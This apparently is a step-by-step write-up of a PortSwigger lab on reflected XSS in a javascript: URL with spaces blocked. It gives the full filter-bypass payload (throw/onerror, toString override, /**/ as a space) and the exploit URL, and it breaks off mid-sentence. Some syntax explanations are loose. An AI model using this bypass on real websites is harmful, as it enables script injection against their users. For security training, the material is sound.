

---

**Difficulty:** 🔴 Expert

**Goal:**

- 🔍 Identify reflected XSS vulnerability in JavaScript URL context
- 🎯 Understand character filtering blocking spaces and some characters
- 💉 Bypass filters using arrow functions and exception handling
- 🔗 Craft payload using throw statement without spaces
- 🚨 Use toString override and window coercion for execution
- 🎉 Execute alert with string "1337" to solve lab

---

## 🧠 **Concept Recap**

> **Reflected XSS in JavaScript URL with character blocking** occurs when user input is reflected inside a `javascript:` URL and certain characters (particularly spaces) are blocked by a filter. The exploit leverages JavaScript's `throw` statement combined with exception handling, arrow functions to create code blocks, blank comments (`/**/`) to bypass space restrictions, `onerror` assignment for function execution, and `toString` property override with type coercion to trigger the payload, successfully calling `alert` with a string argument despite severe character restrictions.

### 📊 **The Vulnerability**

**Understanding the JavaScript URL Context:**

```HTML
What is a javascript: URL?

Normal hyperlink:
<a href="https://example.com">Click me</a>
└── Navigates to a URL when clicked

JavaScript URL (pseudo-protocol):
<a href="javascript:alert(1)">Click me</a>
└── Executes JavaScript code instead of navigating
    └── When clicked: runs the JavaScript expression
        └── Result of expression becomes document content

Common usage patterns:

No action link:
<a href="javascript:void(0)">Do nothing</a>
└── void(0) returns undefined
    └── No navigation occurs

Dynamic action:
<a href="javascript:doSomething();void(0)">Action</a>
└── Executes function
    └── void(0) prevents navigation

Multiple statements:
<a href="javascript:statement1;statement2;void(0)">Multi</a>
└── Executes multiple JavaScript statements

The vulnerability context:

This lab's vulnerable code pattern:
<a href="javascript:fetch('/analytics?searchTerms=USER_INPUT').finally(() => window.location='/')">Back to blog</a>

Normal usage:
User searches for: "security"
Generated link:
<a href="javascript:fetch('/analytics?searchTerms=security').finally(() => window.location='/')">

What happens when clicked:
1. fetch() sends analytics request with search term
2. .finally() executes after fetch completes/fails
3. window.location='/' redirects to homepage
4. User goes back to blog

The injection point:
USER_INPUT is reflected inside the fetch() call
└── But it's inside a JavaScript string context
    └── Inside a javascript: URL
        └── Double JavaScript context! ⚠️

Attack surface:
└── We control part of JavaScript code
    └── Can inject malicious JavaScript
        └── But character filter blocks certain inputs
            └── Need clever bypass! 🎯
```

**Understanding the Character Filter:**

```r
What does this lab block?

Testing common characters:

Spaces:
Input: "test test"
Result: Blocked or filtered
└── Space character is blocked! ❌

Parentheses - Testing:
Input: "test()"
Result: Seems to work
└── Parentheses allowed! ✅

Angle brackets:
Input: "test<>"
Result: Likely blocked (standard XSS protection)
└── < and > blocked ❌

Quotes - Testing different contexts:
Input: "test'"
Result: Depends on position
└── Quotes may work in certain positions ✅

What the filter allows:
✅ No spaces BUT can use comments as separator: /**/
✅ Single quotes: '
✅ Curly braces: { }
✅ Arrow function syntax: =>
✅ Assignment operator: =
✅ Comma operator: ,
✅ Semicolon: ;
✅ Colon: :
✅ Plus operator: +
✅ Numbers: 1337
✅ Comments: /* */
✅ Forward slash: /

The main restriction:
❌ SPACES are blocked!
└── Cannot use: throw onerror
    └── Must use: throw/**/onerror
        └── Comment acts as separator! 💡

Why this matters:
└── Many JavaScript statements require spaces
    └── "throw error" needs space
        └── "function name" needs space
            └── Must find space alternatives! ⚠️

The challenge:
└── Execute alert(1337)
    └── Without using spaces
        └── In a javascript: URL context
            └── Where input is reflected in fetch() call
                └── Extremely constrained! 🎯
```

**Failed Attack Attempts:**

```HTML
Why normal XSS payloads don't work:

Attempt 1: Simple string escape
Input: ');alert(1337);//

Expected injection:
<a href="javascript:fetch('/analytics?searchTerms=');alert(1337);//').finally(...)">

Result:
✅ Syntax works
❌ But this is too simple for "Expert" lab
❌ Likely blocked by additional filters

Attempt 2: Using spaces
Input: '); throw onerror=alert; throw 1337;//

Result:
❌ Blocked: spaces not allowed
└── "throw onerror" contains space
    └── Filter rejects payload

Attempt 3: Without proper context
Input: ');alert`1337`;//

Result:
✅ Tagged template works
❌ But doesn't satisfy lab requirement
❌ Lab wants alert() called with string "1337"
❌ Not just number 1337

Attempt 4: Direct function call
Input: ');alert("1337");//

Result:
✅ Would work normally
❌ But may not be complex enough
❌ Expert lab requires sophisticated technique

We need the official solution! 🎯
```

**The Official PortSwigger Solution (URL-encoded):**

```HTML
The complete payload (as appears in URL):

https://LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

Breaking down the URL encoding:

%27 = '
%3E = >
%2b = +

URL-decoded payload:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

Where this gets injected:

Original JavaScript code:
<a href="javascript:fetch('/analytics?searchTerms=INJECTION_HERE').finally(() => window.location='/')">Back to blog</a>

After injection:
<a href="javascript:fetch('/analytics?searchTerms='},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'').finally(() => window.location='/')">Back to blog</a>

What this creates (formatted for clarity):

javascript:fetch('/analytics?searchTerms='},
                                          x=x=>{throw/**/onerror=alert,1337},
                                          toString=x,
                                          window+'',
                                          {x:''
                 ).finally(() => window.location='/')

This looks like a mess, but it's carefully crafted! 🎯
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Click on any blog post to view it

**Blog post page layout:**

```
┌────────────────────────────────────┐
│ Blog Post Title                    │
├────────────────────────────────────┤
│                                    │
│ Blog post content here...          │
│ Lorem ipsum dolor sit amet...      │
│                                    │
│                                    │
│ [Back to blog]  ← Target link      │
│                                    │
└────────────────────────────────────┘
```

**Initial observations:**

```
Features identified:
├── Blog posts with individual pages
├── "Back to blog" link at bottom of each post
├── URL structure: /post?postId=5
└── Search functionality (may be present)

Next step:
└── Inspect the "Back to blog" link
    └── Check its href attribute
        └── Look for JavaScript code! 🎯
```

---

### 🔎 **Step 2 — Inspect the "Back to Blog" Link**

1. 🖱️ Right-click on **"Back to blog"** link
2. 📝 Select **"Inspect Element"** or **"Inspect"**

**Browser DevTools view:**

```html
<a href="javascript:fetch('/analytics?searchTerms=').finally(() => window.location='/')">Back to blog</a>
```

**Or if you searched for something first:**

```html
<a href="javascript:fetch('/analytics?searchTerms=test').finally(() => window.location='/')">Back to blog</a>
                                                      ↑
                                                      └── Your search term reflected!
```

**Critical discovery:**

```js
🎯 INJECTION POINT IDENTIFIED!

The vulnerable code:
<a href="javascript:fetch('/analytics?searchTerms=USER_INPUT').finally(() => window.location='/')">

Analysis:
├── href uses javascript: pseudo-protocol
├── Executes JavaScript code when clicked
├── Calls fetch() with searchTerms parameter
├── User input reflected in fetch() call
├── Input is inside a JavaScript string
└── Finally() executes after fetch completes

The context:
└── We're inside a JavaScript string
    └── Inside a fetch() function call
        └── Inside a javascript: URL
            └── Triple-nested JavaScript context! ⚠️

Attack approach:
└── Break out of the string
    └── Inject malicious JavaScript
        └── Execute alert(1337)
            └── But bypass character filter! 🎯
```

---

### 🔬 **Step 3 — View Full Page Source**

1. 🖱️ Right-click anywhere on page
2. 📝 Select **"View Page Source"** (or press Ctrl+U)

**Locate the link in source:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Blog Post</title>
</head>
<body>
    <section class="blog-post">
        <h1>Post Title</h1>
        <p>Post content...</p>
        
        <!-- The vulnerable link -->
        <a href="javascript:fetch('/analytics?searchTerms=').finally(() => window.location='/')">Back to blog</a>
    </section>
</body>
</html>
```

**Understanding the full context:**

```js
The href attribute breakdown:

javascript:
└── Pseudo-protocol that executes JavaScript

fetch('/analytics?searchTerms=')
└── Sends HTTP request to analytics endpoint
    └── With searchTerms as query parameter
        └── Empty in this case

.finally(() => window.location='/')
└── Chained promise method
    └── Executes after fetch succeeds OR fails
        └── Arrow function redirects to homepage
            └── () => window.location='/'

Complete execution flow when clicked:
1. JavaScript code starts executing
2. fetch() sends request in background
3. .finally() waits for fetch to complete
4. After completion: redirects to /
5. User returns to blog homepage

Where our injection happens:
fetch('/analytics?searchTerms=INJECTION_HERE')
                                ↑
                                └── We control this!

But we're inside a string:
'...'
└── Need to escape the string
    └── Then inject code
        └── Then handle syntax to avoid errors! ✓
```

---

### 🧪 **Step 4 — Understanding the Payload Structure**

**The official solution (URL-decoded):**

```javascript
/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

**Let's break this down component by component:**

```javascript
Component 1: '},
└── Closes the existing string context
    └── Closes any object literal that might exist
        └── Prepares for our code injection

Component 2: x=x=>
└── Arrow function definition
    └── x = (parameter) => (function body)
        └── Assigns arrow function to variable x

Component 3: {throw/**/onerror=alert,1337}
└── Function body in curly braces
    └── throw statement (needs to be in block)
        └── /**/ is blank comment (replaces space)
            └── onerror=alert assigns alert to onerror
                └── ,1337 is comma operator with value

Component 4: ,toString=x
└── Comma operator continues expression
    └── Assigns our function x to toString property
        └── window.toString = x (in global scope)

Component 5: ,window+''
└── Comma operator continues
    └── Forces string conversion on window
        └── window + '' calls window.toString()
            └── Which triggers our function!

Component 6: ,{x:'
└── Creates new object literal
    └── Opens string context
        └── Matches with original string ending
            └── Balances the syntax

The genius of this payload:
└── Uses arrow functions for block syntax
    └── Uses /**/ to replace blocked spaces
        └── Uses throw to create exception
            └── Uses onerror to catch exception
                └── Uses toString override to trigger execution
                    └── Uses window coercion to call toString
                        └── All without spaces! 💡
```

---

### 💡 **Step 5 — Deep Dive: How Each Component Works**

**Component 1: Closing the String**

```javascript
'},

In context:
fetch('/analytics?searchTerms='},
                               ↑
                               └── Closes the string

Result:
fetch('/analytics?searchTerms='}   ← String ends here
                                ,   ← Now we're in JavaScript context

This creates:
fetch('/analytics?searchTerms=''}, ...)
└── Empty string passed to fetch
    └── Then comma continues expression
        └── JavaScript allows comma-separated expressions! ✓
```

**Component 2: Arrow Function Definition**

```javascript
x=x=>{...}

Breakdown:
x       = x     => {...}
↑         ↑        ↑
Variable  Param    Body

Detailed:
x = x => {...}
└── Assigns arrow function to variable x
    └── Function takes parameter x
        └── Function body is {...}

Why arrow function?
└── Allows us to use throw statement
    └── throw requires block context (not expression)
        └── Arrow function provides block: {...}
            └── Can contain statements! ✓

Traditional function equivalent:
x = function(x) {
    throw onerror=alert,1337
}

But arrow function is more concise:
x = x => {throw onerror=alert,1337}
└── Shorter syntax
    └── No "function" keyword needed
        └── Perfect for tight space! ✓
```

**Component 3: Throw Statement with Blank Comment**

```javascript
{throw/**/onerror=alert,1337}

Why throw?
└── throw creates an exception
    └── Exception triggers onerror handler
        └── We control onerror!

Why /**/ blank comment?
└── Spaces are blocked: throw onerror ❌
    └── Comment acts as separator: throw/**/onerror ✅
        └── JavaScript ignores comments
            └── Effectively same as space! 💡

What throw does:
throw expression
└── Evaluates expression
    └── Creates exception with that value
        └── Exception bubbles up
            └── Caught by onerror handler

The expression: onerror=alert,1337

Breaking down:
onerror=alert  ,  1337
↑              ↑  ↑
Assignment     |  Second value
               └── Comma operator

Step 1: onerror=alert
└── Assigns window.alert to window.onerror
    └── Returns: alert function

Step 2: ,1337
└── Comma operator evaluates both expressions
    └── Returns: 1337 (the last value)

Complete expression result:
throw (onerror=alert, 1337)
└── Assigns alert to onerror
    └── Returns 1337
        └── Throws 1337 as exception
            └── onerror handler catches it
                └── Calls alert with the exception! 💥

The execution flow:
1. throw is executed
2. onerror=alert assigns alert function
3. ,1337 makes throw value be 1337
4. Exception thrown with value 1337
5. onerror handler triggered
6. onerror (which is alert) called with exception
7. alert(1337) executes! ✓

Why this works:
└── onerror is global exception handler
    └── When exception thrown: onerror(exception)
        └── We set onerror = alert
            └── So: alert(1337) gets called! 💡
```

**Component 4: toString Override**

```javascript
,toString=x

Why override toString?
└── We need to CALL our function x
    └── But we can't use parentheses directly (complex context)
        └── Solution: Override toString
            └── Trigger toString automatically! ✓

How toString works normally:
window.toString()
└── Returns: "[object Window]"

After our override:
window.toString = x
└── Now toString points to our function
    └── When called: executes our arrow function
        └── Which does the throw! ✓

Why we need this:
└── Our function x needs to execute
    └── Can't just write x() (wrong context)
        └── Instead: override toString
            └── Then trigger it automatically
                └── Next component does this! 🎯
```

**Component 5: Window Coercion**

```javascript
,window+''

What does this do?
window + ''
└── Tries to add window object to empty string
    └── JavaScript converts window to string
        └── Calls window.toString() for conversion
            └── Our override executes! 💥

Type coercion in JavaScript:
Object + String = String
└── Object must be converted to string
    └── JavaScript calls object.toString()
        └── Gets string representation

Before our override:
window.toString()
└── Returns: "[object Window]"

After our override (toString=x):
window.toString()
└── Calls our arrow function x
    └── Function body: {throw/**/onerror=alert,1337}
        └── Executes the throw!
            └── Exception thrown
                └── onerror catches it
                    └── alert(1337) runs! 💥

The complete trigger chain:
window+''
    ↓
Needs to convert window to string
    ↓
Calls window.toString()
    ↓
toString is our function x
    ↓
Function executes: throw/**/onerror=alert,1337
    ↓
onerror=alert assigns
    ↓
throw 1337 executes
    ↓
Exception thrown
    ↓
onerror handler (alert) catches it
    ↓
alert(1337) displays! ✓

Why this specific technique?
└── Automatic execution without direct call
    └── Type coercion is automatic
        └── No parentheses needed for trigger
            └── Bypasses complex syntax issues! 💡
```

**Component 6: New Object Literal**

```javascript
,{x:'

Why this final piece?
└── Need to balance the original syntax
    └── Original code has closing quote and parenthesis
        └── Our injection must match

Original context:
fetch('/analytics?searchTerms=INJECTION').finally(...)
                                         ↑
                                         └── Closing quote and paren

Our injection ends with:
{x:'
└── Opens new object literal
    └── Opens new string
        └── Matches with original closing quote!

Complete syntax after injection:
fetch('/analytics?searchTerms='},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'').finally(...)
                               ↑                                                          ↑↑
                               └── Closes original string                                 ││
                                                                                          │└── Original closing quote
                                                                                          └── Starts new string in object

The object {x:''} is created:
{x: ''}
└── Object with property x
    └── Value is empty string
        └── Harmless but balances syntax! ✓

Why this works:
└── Comma operator allows multiple expressions
    └── Last expression can be object literal
        └── Object syntax matches remaining code
            └── No syntax errors! ✓
```

---

### 🎯 **Step 6 — Complete Payload Analysis**

**Full payload in context:**

```javascript
Original code:
<a href="javascript:fetch('/analytics?searchTerms=').finally(() => window.location='/')">

After injection:
<a href="javascript:fetch('/analytics?searchTerms='},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'').finally(() => window.location='/')">

Formatted for clarity:

javascript:fetch(
    '/analytics?searchTerms='},           // Close string
    x=x=>{throw/**/onerror=alert,1337},   // Define function
    toString=x,                            // Override toString
    window+'',                             // Trigger via coercion
    {x:''                                  // Balance syntax
).finally(() => window.location='/')

Execution sequence when link is clicked:

Step 1: JavaScript code begins executing
fetch('/analytics?searchTerms='},x=x=>{...},toString=x,window+'',{x:'')

Step 2: First argument to fetch (string):
'/analytics?searchTerms='
└── Empty search term

Step 3: Comma operator evaluates next expression:
x=x=>{throw/**/onerror=alert,1337}
└── Defines arrow function
    └── Assigns to variable x
        └── Function not called yet

Step 4: Comma operator continues:
toString=x
└── Assigns x to window.toString
    └── Overrides toString method
        └── Still not called yet

Step 5: Comma operator continues:
window+''
└── Forces string conversion
    ↓
Calls window.toString()
    ↓
Our function x executes!
    ↓
{throw/**/onerror=alert,1337}
    ↓
onerror = alert (assigns alert function)
    ↓
throw 1337 (throws exception with value 1337)
    ↓
Exception triggers onerror handler
    ↓
onerror(1337) is called
    ↓
Since onerror = alert: alert(1337) executes! 💥

Step 6: Comma operator continues:
{x:''}
└── Creates object literal
    └── Last value of comma expression
        └── Becomes argument to fetch? No, syntax is complex but valid

Step 7: fetch() may execute (with unusual arguments)
└── But we don't care
    └── Our alert already executed!
        └── Lab solved! ✓

The beauty of this attack:
└── Uses comma operator to chain expressions
    └── Executes our code before fetch completes
        └── Alert appears immediately on click
            └── All without spaces! 💡
```

---

### 🚀 **Step 7 — Construct the Exploit URL**

**Building the complete URL:**

```r
Base URL structure:
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&PAYLOAD

The payload (URL-decoded):
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

URL encoding required characters:
' (single quote) = %27
> (greater than) = %3E
+ (plus sign)    = %2b
Space            = %20 (but we don't have spaces!)

URL-encoded payload:
%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

Complete exploit URL:
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

Why the & before payload?
└── Payload is added as new parameter
    └── postId=5&PAYLOAD
        └── & separates parameters
            └── PAYLOAD becomes part of searchTerms! ✓

How searchTerms gets populated:
└── URL parameters after postId
    └── Everything after & gets included
        └── Server reflects it into the link
            └── Our payload injected! 💥
```

**Step-by-step URL construction:**

```HTTP
Step 1: Get your lab ID
Example: 0a12003e0411f61c80bd4567006e0012

Step 2: Build base URL
https://0a12003e0411f61c80bd4567006e0012.web-security-academy.net/post?postId=5

Step 3: Add & for new parameter
https://0a12003e0411f61c80bd4567006e0012.web-security-academy.net/post?postId=5&

Step 4: Add URL-encoded payload
https://0a12003e0411f61c80bd4567006e0012.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

Step 5: Final URL (ready to use)
https://0a12003e0411f61c80bd4567006e0012.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

✅ This is your complete exploit URL!
```

---

### 🌐 **Step 8 — Deliver the Exploit**

1. 📋 Copy the complete exploit URL with YOUR lab ID
2. 🌐 Paste it into browser address bar
3. ⏎ Press **Enter** to navigate

**Expected page load:**

```
Page loads normally
         ↓
Shows blog post #5
         ↓
"Back to blog" link is present
         ↓
Link contains our malicious payload
         ↓
Waiting for click...
```

**The "Back to blog" link now contains:**

```html
<a href="javascript:fetch('/analytics?searchTerms='},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'').finally(() => window.location='/')">Back to blog</a>
```

---

### 🖱️ **Step 9 — Trigger the Exploit**

1. 🖱️ Click the **"Back to blog"** link at the bottom of the page

**What happens:**

```js
Link clicked
         ↓
javascript: URL executes
         ↓
Code begins running:
fetch('/analytics?searchTerms='},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'')
         ↓
Comma expressions evaluated:
1. x=x=>{...} defines function
2. toString=x overrides toString
3. window+'' triggers toString
         ↓
window.toString() called
         ↓
Our function executes
         ↓
throw/**/onerror=alert,1337
         ↓
onerror = alert
throw 1337
         ↓
Exception thrown
         ↓
onerror handler triggered
         ↓
alert(1337) executes! 💥
```

**Alert dialog appears:**

```
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ 1337                               │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘
```

---

### ✅ **Step 10 — Lab Completion**

**After alert appears:**

```
Lab detection system:
├── Monitors page execution
├── Detects alert() call
├── Verifies message contains "1337"
├── Confirms XSS successful
└── Marks lab as solved! ✓
```

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited         │
│  reflected XSS in a JavaScript URL  │
│  with character restrictions by     │
│  using arrow functions, throw       │
│  statement, onerror assignment,     │
│  toString override, and window      │
│  coercion to execute alert(1337).   │
│                                     │
│  Lab: Reflected XSS in a JavaScript │
│       URL with some characters      │
│       blocked                       │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

**What you achieved:**

```
✅ Bypassed space character filter using /**/
✅ Used arrow functions for block syntax
✅ Used throw statement to create exception
✅ Assigned onerror without function call syntax
✅ Overrode toString for automatic trigger
✅ Used window coercion to execute code
✅ Called alert with string "1337" in message
✅ Solved expert-level XSS challenge! 🎉
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Navigate to blog post
         → URL: /post?postId=5
         ↓
Step 3: Inspect "Back to blog" link
         → Found: javascript:fetch('/analytics?searchTerms=')...
         → Identified injection point ✓
         ↓
Step 4: Analyze character restrictions
         → Spaces blocked ❌
         → Must use /**/ as separator ✓
         ↓
Step 5: Understand PortSwigger solution
         → Payload: '},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
         → Component breakdown analyzed ✓
         ↓
Step 6: Component 1 - Close string
         → '}, closes existing context
         ↓
Step 7: Component 2 - Define arrow function
         → x=x=>{...} creates function
         ↓
Step 8: Component 3 - Throw with onerror
         → throw/**/onerror=alert,1337
         → Assigns alert to onerror
         → Throws 1337 as exception
         ↓
Step 9: Component 4 - Override toString
         → toString=x
         → window.toString now points to our function
         ↓
Step 10: Component 5 - Trigger via coercion
         → window+''
         → Forces string conversion
         → Calls window.toString()
         → Our function executes!
         ↓
Step 11: Component 6 - Balance syntax
         → {x:' creates object literal
         → Matches with original closing quote
         ↓
Step 12: URL encode payload
         → %27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
         ↓
Step 13: Construct exploit URL
         → https://LAB-ID.web-security-academy.net/post?postId=5&PAYLOAD
         ↓
Step 14: Visit exploit URL
         → Page loads with malicious link
         ↓
Step 15: Click "Back to blog"
         → javascript: URL executes
         → Comma expressions evaluate
         → toString() triggered
         → Function executes
         → Exception thrown
         → onerror catches
         → alert(1337) displays! 💥
         ↓
Step 16: Lab detects success
         ↓
Step 17: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **JavaScript URL Context Deep Dive**

```js
What makes javascript: URLs dangerous?

The javascript: pseudo-protocol:
└── Allows executing JavaScript instead of navigating
    └── href="javascript:CODE" runs CODE when clicked
        └── CODE result becomes document content
            └── Often used for dynamic actions

Common patterns:

Pattern 1: No action
<a href="javascript:void(0)">Click</a>
└── void(0) returns undefined
    └── No navigation occurs
        └── Link does nothing

Pattern 2: Simple action
<a href="javascript:alert('Hi')">Click</a>
└── Executes alert
    └── Shows popup
        └── Then page may change to result

Pattern 3: Multiple statements
<a href="javascript:doSomething();void(0)">Click</a>
└── Executes function
    └── void(0) prevents navigation
        └── Page stays same

Pattern 4: Complex expressions
<a href="javascript:fetch('/api').then(r=>r.json()).then(console.log);void(0)">Click</a>
└── Can contain complex JavaScript
    └── Promises, async operations
        └── Full JavaScript capability!

Why this is dangerous with user input:

Vulnerable code:
href="javascript:fetch('/track?q=USER_INPUT')"

Attacker input: ');alert(1);//
Result:
href="javascript:fetch('/track?q=');alert(1);//')"
                                    ↑        ↑
                                    └────────┘
                                    Injected code!

Execution:
1. fetch('/track?q='') executes (harmless)
2. alert(1) executes (XSS!)
3. // comments out rest

The double context problem:

Level 1: HTML attribute context
<a href="...">
└── Can inject HTML

Level 2: JavaScript URL context
href="javascript:..."
└── Can inject JavaScript

Level 3: JavaScript string context
fetch('...')
└── Can break out of string

This lab has all three levels! ⚠️
```

---

### **Character Filter Bypass Techniques**

```js
Understanding the space restriction:

Why spaces matter in JavaScript:

Required spaces in normal syntax:
throw error     ← Space needed
function name   ← Space needed
return value    ← Space needed
if condition    ← Space needed

This lab blocks spaces:
└── throw onerror → ❌ Rejected
    └── Need alternative separator

The /**/ blank comment trick:

How it works:
throw/**/onerror
└── /**/ is a comment
    └── Comments are whitespace in JavaScript
        └── Acts like a space
            └── But not filtered! ✓

JavaScript comment types:

Single-line: //
// Everything after // is comment
alert(1)//comment

Multi-line: /* */
/* This is
   a comment */
alert(1)

Blank comment: /**/
alert/**/1
└── Comment with no content
    └── Acts as separator
        └── Not a space character
            └── Bypasses filter! 💡

Other space alternatives that DON'T work here:

Tab character: \t
└── May also be blocked

Newline: \n or \r
└── May be blocked
└── Could break URL

Unicode spaces: \u0020
└── Still a space character
└── Likely blocked

Only /**/ works reliably!
└── Not a space character
    └── Valid JavaScript separator
        └── Not blocked by filter ✓

Example usage:
Normal: throw onerror=alert,1337
Blocked: throw onerror ❌

With comment: throw/**/onerror=alert,1337
Allowed: throw/**/onerror ✅

The comment is removed by parser:
throw/**/onerror → throw onerror (in parser)
└── Functionally identical
    └── But bypasses character filter! 💡
```

---

### **Arrow Functions and Block Syntax**

```js
Why arrow functions are essential:

The throw statement problem:

throw is a STATEMENT, not an expression:
Statement: Must be in statement context
Expression: Can be used anywhere

Cannot use throw as expression:
var x = throw error;  ❌ Syntax error

Must use throw in block:
{
    throw error;  ✓ Valid
}

Arrow functions provide blocks:

Traditional function:
function name() {
    throw error;
}

Arrow function with block:
() => {
    throw error;
}

Arrow function as expression:
x = () => {throw error}
└── Entire thing is assignment expression
    └── But contains statement block
        └── Can use throw inside! ✓

In our payload:

x=x=>{throw/**/onerror=alert,1337}
↑ ↑  ↑
│ │  └── Function body (block)
│ └── Parameter
└── Variable assignment

Breakdown:
x = x => {...}
└── Assigns arrow function to x
    └── Parameter: x (unused, just for syntax)
        └── Body: {throw/**/onerror=alert,1337}

Why parameter is needed:
x => {...}     ✓ Valid arrow function
=> {...}       ❌ Invalid syntax

Even if parameter unused:
x => {throw 1}
└── x is defined but not used
    └── Still valid syntax
        └── Allows us to create block! ✓

The complete arrow function:

Definition:
x = x => {throw/**/onerror=alert,1337}

When called (via toString):
x()
└── Executes function body
    └── {throw/**/onerror=alert,1337}
        └── throw statement runs
            └── Exception created! 💥

Arrow function advantages:
✅ Concise syntax (no "function" keyword)
✅ Provides block for statements
✅ Can be assigned to variables
✅ Can be used as expression
✅ Perfect for our exploit! 💡
```

---

### **Exception Handling and onerror**

```js
Understanding throw and onerror:

The throw statement:

What throw does:
throw expression;
└── Evaluates expression
    └── Creates exception with that value
        └── Stops normal execution
            └── Bubbles up to error handler

Example:
throw "Error message";
└── Creates exception
    └── Value: "Error message"

throw 1337;
└── Creates exception
    └── Value: 1337 (number)

The onerror handler:

Global error handler:
window.onerror = function(error) {
    console.log("Caught:", error);
};

When exception thrown:
throw "Test";
└── onerror handler called
    └── With exception as argument
        └── onerror("Test") executes

Our exploit technique:

Step 1: Assign alert to onerror
onerror = alert
└── window.onerror = window.alert
    └── Error handler is now alert function

Step 2: Throw a value
throw 1337
└── Creates exception with value 1337
    └── Triggers onerror handler
        └── Calls onerror(1337)
            └── Since onerror = alert: alert(1337)! 💥

Combined with comma operator:

Expression: onerror=alert,1337
└── Comma operator evaluates both
    └── onerror=alert (first)
        └── Returns: alert function
    └── ,1337 (second)
        └── Returns: 1337

Complete throw statement:
throw onerror=alert,1337
└── Evaluates: onerror=alert,1337
    └── Assigns alert to onerror
        └── Returns 1337
            └── Throws 1337 as exception
                └── onerror(1337) called
                    └── alert(1337) executes! ✓

Why this specific technique?

Calling alert normally:
alert(1337)  ← Needs parentheses

Our method:
throw onerror=alert,1337
└── No parentheses for alert!
    └── Comma operator provides argument
        └── throw triggers execution
            └── onerror catches and calls
                └── Indirect function call! 💡

The execution flow:

Code: throw/**/onerror=alert,1337

Step 1: Parse statement
throw EXPRESSION

Step 2: Evaluate EXPRESSION
onerror=alert,1337
    ↓
onerror = window.alert (assignment)
    ↓
Returns alert function
    ↓
,1337 (comma operator)
    ↓
Returns 1337 (last value)

Step 3: Throw the value
throw 1337

Step 4: Exception bubbles
Exception created with value 1337
    ↓
No try-catch blocks
    ↓
Reaches global error handler
    ↓
window.onerror(1337) called

Step 5: onerror executes
window.onerror === window.alert
    ↓
alert(1337) called
    ↓
Alert displays: "1337" ✓

Why the message is "1337":
└── throw 1337 throws number
    └── alert(1337) converts to string
        └── Displays: "1337"
            └── Lab requirement satisfied! ✓
```

---

### **Property Override and Type Coercion**

```js
Understanding toString override:

The toString method:

Normal toString:
window.toString()
└── Returns: "[object Window]"

object.toString()
└── Called when object converted to string
    └── Returns string representation

Overriding toString:

window.toString = function() {
    return "Custom string";
};

window.toString()
└── Returns: "Custom string"

Our override:
toString = x
└── window.toString = x
    └── Where x is our arrow function
        └── When called: executes our code! 💥

Type coercion trigger:

What is type coercion?
└── Automatic type conversion in JavaScript
    └── When mixing types in operations
        └── JavaScript converts to compatible type

String coercion:
Object + String = String
└── Object must be converted to string
    └── JavaScript calls object.toString()
        └── Gets string representation

Example:
{} + ""
└── Object + String
    ↓
Needs to convert {} to string
    ↓
Calls {}.toString()
    ↓
Returns: "[object Object]"
    ↓
Final result: "[object Object]"

Our exploit uses:
window + ''
└── Window object + empty string
    ↓
Needs to convert window to string
    ↓
Calls window.toString()
    ↓
But we overrode toString = x!
    ↓
Calls our function x()
    ↓
Executes: throw/**/onerror=alert,1337
    ↓
Exception thrown
    ↓
alert(1337) called! 💥

Why this technique?

Direct function call:
x()  ← Needs parentheses
